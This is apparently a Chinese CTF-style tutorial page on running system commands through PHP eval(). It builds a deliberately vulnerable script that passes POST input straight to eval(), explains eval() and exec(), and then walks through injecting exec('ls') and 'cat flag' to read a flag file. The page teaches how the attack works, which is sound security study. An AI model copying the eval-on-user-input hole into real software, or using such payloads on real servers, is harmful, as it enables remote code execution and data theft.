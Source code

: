 ```yaml
---
title: 通过eval( )执行系统命令
icon: 'simple-icons:deepl' 
tags:
    - web
    - php
createTime: 2025/02/05 10:51:28
permalink: /security/eval/
---
```



## 概览

文件目录

::: file-tree

- workspace     \# 工作目录
  - test.php    \# php文件
  - KILLME.md   \# 演示文件
  - flag        \# flag

:::

文件内容

::: code-tabs

@tab test.php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         

eval($_POST['cmd']);
?>

```

@tab KILLME.md

```md
# 不服就来砍我！
```

@tab flag

```
flag{4h1s_1s_f1ag}
```

:::


## 知识回顾

### 代码显示

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         
?>
```

`highlight_file()`是一个PHP内置函数，用于将指定文件的内容以HTML高亮的形式输出。它会读取文件内容，并以语法高亮的方式显示代码，便于阅读和调试。如果文件中包含PHP代码，它会将PHP代码以HTML高亮的形式展示，而不是直接执行代码。

`__FILE__`是PHP的一个魔术常量，返回当前脚本的绝对路径和文件名


`error_reporting()`是一个PHP内置函数，用于设置PHP的错误报告级别。

`0`表示禁用所有错误报告。这意味着PHP在运行时不会显示任何错误、警告或通知（如 E_NOTICE、E_WARNING、E_ERROR 等）


### 参数传递

使用`GET`和`POST`方法传参，以下是一个演示例子：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
if (isset($_GET['name']) && isset($_GET['gender']) && isset($_POST['id']) && isset($_POST['age'])) {
    $name = $_GET['name'];
    $gender = $_GET['gender'];
    $id = $_POST['id'];
    $age = $_POST['age'];
    echo "name:$name gender:$gender id:$id age:$age";
} else {
    echo "请传递参数给我";
}
?>
```
使用hackbar插件传参，效果如下

![](img/1.png "演示")


### eval( )

`eval()`将字符串视为PHP代码进行执行，允许在运行时动态生成并执行代码

::: code-tabs

@tab show-1.php

```php
<?php
$code = "echo 'Hello, World!';";
eval($code); // 输出：Hello, World!
?>
```

@tab show-2.php

```php
<?php
$a = 10;
$b = 20;
eval("echo \$a + \$b;");
// 输出：30
?>
```

:::

### exec( )

`exec()`是一个用于执行外部程序的功能强大的函数。它允许你在PHP脚本中运行系统命令，并可以获取命令的输出或状态码。

::: code-tabs

@tab show-1.php

```php
<?php
// 执行外部命令
$output = exec('date');
echo "当前时间: $output";
?>
```

@tab show-2.php

```php
<?php
// 执行外部命令，并将输出存储到 $output 数组中
$output = [];
$return_var = 0;
exec('ls -l', $output, $return_var);

// 检查命令是否执行成功
if ($return_var === 0) {
    echo "命令执行成功，输出如下：<br>";
    foreach ($output as $line) {
        echo htmlspecialchars($line) . "<br>";
    }
} else {
    echo "命令执行失败，状态码: $return_var";
}
?>
```

:::


## 实战

分析目标代码，我们很容易得知要对eval部分进行下手

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         

eval($_POST['cmd']); // [!code focus]
?>
```

我们可以写出对应的指令

```php
exec('ls', $output); // 在这里面添加我们想执行的指令
foreach ($output as $line) {
    echo $line . "<br>";
}

```
接着，用POST传参（可以传多个语句）
![](img/2.png)
发现flag，使用“cat flag”得到flag
![](img/3.png)

